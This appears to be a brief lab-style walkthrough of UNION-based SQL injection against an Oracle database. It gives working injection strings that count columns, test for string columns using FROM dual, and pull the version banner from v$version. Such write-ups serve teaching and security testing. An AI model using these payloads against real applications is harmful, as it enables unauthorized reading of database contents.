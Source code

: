 # Database type and version on Oracle

the version of database on oracle can be retreive using query

```sql
select * from v$version
```

this wil return about the version of oracle

end goal : database version and type

let's analyze total no.of of columns we have her

```sql
' order by 1--
' order by 2--
```

if column contains any string

```sql
' union select  'a',NULL-- //returns error
```

we are using oracle database and after searching found that it's select statement require **FROM** caluse and  

modified query

```sql
' union  select  'a',NULL from dual--
' union  select  'a','a' from dual--
```

this was running perfectly

payload

```sql
' union select banner, NULL from v$version--
```
